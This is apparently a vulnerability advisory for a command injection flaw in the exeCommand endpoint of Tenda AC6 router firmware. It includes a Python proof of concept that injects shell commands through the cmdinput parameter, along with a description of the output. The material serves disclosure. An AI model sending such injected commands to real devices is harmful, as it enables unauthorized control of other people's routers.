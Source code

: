 # Command Injection Vulnerability in Tenda AC6 Firmware

## Vulnerability Overview
There is a **Command Injection** vulnerability in the **Tenda AC6 firmware version 15.03.05.16_multi**. The vulnerability exists in the **exeCommand** function of the firmware. Specifically, the **cmdinput** parameter, which is passed via HTTP, allows attackers to inject arbitrary commands into the system. This vulnerability allows attackers to execute arbitrary system commands, potentially gaining unauthorized access or causing other system misconfigurations.

The issue arises from improper sanitization of user-supplied input, where an attacker can exploit the **cmdinput** parameter to inject and execute arbitrary commands. For example, an attacker could inject commands like `ls` to list directories, or use other commands to read sensitive files or execute malicious actions remotely. 
![Root Cause of Command Injection Vulnerability](1.png)

## Affected Versions
- Tenda AC6 Firmware version 15.03.05.16_multi

## Impact
- Command Injection
- Unauthorized access to the system
- Potential for information disclosure or system compromise

![PoC](2.png)
## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/exeCommand"

data = {
    "cmdinput": "ls; ls > /execcommand.txt;"  # Example command injection
}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)


PoC Run Results:

After sending the crafted request with the injected command (ls), the command is successfully executed on the device. The response returned includes the output of the executed command. Specifically, the file system's directory listing is displayed, showing the contents of the device's directories.

Command Executed: ls (list directories)

Output: The directory contents are printed as expected, confirming that the command injection was successful and arbitrary system commands can be executed remotely.

This indicates that the device is vulnerable to command injection attacks, as the attacker was able to execute a basic ls command remotely and retrieve the file system's contents.

![PoC Execution Result](3.png)
